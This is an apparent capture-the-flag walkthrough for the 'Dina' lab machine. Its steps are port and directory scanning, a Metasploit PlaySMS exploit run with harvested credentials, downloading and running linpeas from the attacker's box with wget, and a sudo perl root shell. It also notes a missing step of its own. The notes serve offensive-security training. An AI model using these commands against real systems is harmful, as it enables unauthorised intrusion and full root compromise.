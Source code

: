 # Metasploit CTF [Dina]
## Enumeration

**Nmap Port Scan:**

- **Command:**
    
    ```powershell
    nmap -A -oN scan <MACHINE-IP>
    ```
    
- **Results:**
    
    ![Untitled](https://curious-cloth-153.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F95fa80c9-fc09-41c7-a313-856f4155a90a%2F8d6c3479-7eac-490b-87fb-bf3000899181%2FUntitled.png?table=block&id=476ec69f-2b81-4aca-a692-b9047e63cdb3&spaceId=95fa80c9-fc09-41c7-a313-856f4155a90a&width=1390&userId=&cache=v2)
    

**Service Versions Found:** 

- **80 | Apache | 2.2.22**

**Gobuster Scan:**

- **Command:**
    
    ```powershell
    gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
    ```
    
- **Results:**
    
    ```powershell
    /.htpasswd
    /.htaccess
    /cgi-bin/
    /index
    /nothing
    /robots.txt
    /robots
    /secure
    /server-status
    /tmp
    /uploads
    ```
    

**Source Code:**

<aside>
💡 inspect element in the “/nothing” web directory to find a list of secret passwords, make a wordlist with those passwords on your kali box.

</aside>

_missing jump between password list and playsms exploit

## Exploitation

**Exploit Found:**

[PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)](https://www.exploit-db.com/exploits/48335)

**Metasploit Module:**

- **Payload**
    
    ```jsx
    use exploit/multi/http/playsms_uploadcsv_exec
    ```
    
- **Options**
    
    ```jsx
    set rhost 192.168.43.219
    set lhost 192.168.43.171
    set username touhid
    set password diana
    set targeturi /SecreTSMSgatwayLogin
    ```
    

**Navigation:**

- **Get a shell on the machine**
    
    ```jsx
    shell
    ```
    

- **Upgrade to an interactive shell**
    
    ```jsx
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    

## Privilege Escalation

**Linpeas is in the “~/Tools” Directory of all the machines**

https://github.com/carlospolop/PEASS-ng/releases

**Linpeas:**

- **Host a Python Server from “~/Tools” on the Kali Box**
    
    ```jsx
    python3 -m http.server 80
    ```
    
- **Download Linpeas on to the vulnerable machine**
    
    ```jsx
    CD into Uploads Directory
    ```
    
    ```jsx
    wget http://<KALI-IP>/linpeas.sh
    ```
    
    ```jsx
    chmod +x linpeas.sh
    ```
    
    ```jsx
    ./linpeas.sh
    ```
    


**💡 Using Linpeas.sh We find that Perl has Sudo privileges without having to authenticate as a Sudo user “/user/bin/perl”**
            
    ```jsx
    sudo -l
    ```

**Get a root shell:**

```jsx
sudo perl -e 'exec "/bin/bash";'
```

**PWN3D!**
